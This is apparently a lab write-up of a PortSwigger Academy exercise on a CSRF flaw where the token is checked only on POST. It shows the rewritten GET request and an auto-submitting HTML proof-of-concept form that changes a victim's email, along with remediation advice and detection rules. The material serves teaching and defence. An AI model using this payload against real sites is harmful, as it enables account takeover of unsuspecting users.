


# CSRF — Token Validation Depending on the Request Method

| Field | Detail |
|---|---|
| Lab | CSRF with token validation depending on the request method |
| Platform | PortSwigger Web Security Academy |
| Vulnerability | Cross-Site Request Forgery — CSRF token validated only on POST, not on GET |
| CWE | CWE-352: Cross-Site Request Forgery (CSRF) |
| Severity | Medium |
| Date | 20 November 2026 |
| Author | Md Jahidur Rahman Jahid |

## Summary

The change-email function is protected by a CSRF token — but
only on POST requests. The server checks the token when the
request method is POST and skips the check entirely when the
method is GET. So the same request, sent as a GET with a random
token, still changes the email. That turns a protected POST-only
action into an unprotected GET, which can be triggered from any
web page the victim visits. A hidden auto-submitting form on the
exploit server changes the victim's email without them doing
anything.

## Steps to Reproduce

1. Log in as the user provided by the lab (wiener) and change
   the email using the form on the My Account page. Intercept
   the request in Burp Suite — it is a POST:

```http
POST /my-account/change-email HTTP/1.1
Host: [lab].web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Cookie: session=[REDACTED]

email=wiener%40gm.com&csrf=[REDACTED]
```

2. In Burp Repeater, change the POST to a GET — move the
   `email` and `csrf` parameters into the query string — and
   change the token to a random value:

```http
GET /my-account/change-email?email=wiener%40gm.com&csrf=[random-value] HTTP/1.1
Host: [lab].web-security-academy.net
Cookie: session=[REDACTED]
```

   Send it: the email still changes, and the validation passes.
   The token value does not matter on a GET request, because
   the server is not checking the CSRF token on GET at all —
   it only validates the token on POST.

3. Build the exploit. Right-click the GET request in Burp and
   generate a CSRF PoC. Tick the auto-submit option so the
   form submits itself (`document.forms[0].submit()`), and
   regenerate the script:

```html
<form action="https://[lab].web-security-academy.net/my-account/change-email">
  <input type="hidden" name="email" value="test123@gm.com" />
  <input type="hidden" name="csrf" value="[random-value]" />
  <input type="submit" value="Submit request" />
</form>
<script>
  document.forms[0].submit();
</script>
```

   The form has no method, so it submits as a GET — the method
   the server does not check.

4. Go to the exploit server (`/exploit`), paste the HTML, and
   set the email to the attacker's address (`test123@gm.com`).
   Click **Store** first, then **Deliver exploit to victim**.

5. The victim's browser loads the page, the form auto-submits
   the GET request with the victim's own session cookie, and
   the victim's email is changed to `test123@gm.com`. Refreshed
   the site and verified the email had changed — the lab is
   solved.

Why it works: the token check is tied to the request method
instead of the action. The developers protected the POST, but
the same endpoint also accepts GET, and the GET path has no
check at all. Changing the method is enough to walk past the
protection — the token can be anything, because nothing reads it.

## Evidence

Burp Repeater — the original POST request to change the email,
with the CSRF token in the body. Session cookie and token
redacted.



Burp Suite — the GET request (left), the CSRF PoC generator
with auto-submit (middle), and the exploit server with the
stored HTML (right), ready to deliver to the victim. Session
cookie and token redacted.



## Impact

An attacker who can trigger a state-changing GET request from
a victim's browser can:

- Change the victim's email address, then use "forgot password"
  to take over the account — the reset link goes to the
  attacker's inbox.
- Change any other account setting the application exposes
  through a GET request.
- Act entirely as the victim, using their own logged-in session,
  without needing their password.

The victim only has to visit a malicious page — no click, no
form, nothing. The auto-submit script does it all.

## Remediation

- Validate the CSRF token on every state-changing request,
  whatever the method — never tie the check to POST only.
- Do not accept state-changing requests by GET at all. Changing
  an email, a password, or any setting must require POST (or
  PUT / DELETE) with a valid token.
- Tie each token to the user's session, and reject requests
  whose token is missing, wrong, or belongs to another session.
- Set the session cookie with `SameSite=Lax` or `SameSite=Strict`
  so the browser does not send it with cross-site requests.
- As defence in depth, check the `Referer` or `Origin` header
  on state-changing requests and reject ones that come from
  another site.

## Detection (SOC)

- Alert on GET requests to state-changing endpoints (for
  example `/my-account/change-email`) that carry action
  parameters such as `email=` — a state change should never
  arrive as a GET.
- Alert on account-email changes where the request has no
  valid CSRF token, or where the `Referer` header points to
  an external domain.
- Alert on email changes immediately followed by a password
  reset request — the classic CSRF-to-takeover chain.

## References

- PortSwigger — Cross-site request forgery (CSRF): https://portswigger.net/web-security/csrf
- CWE-352: https://cwe.mitre.org/data/definitions/352.html
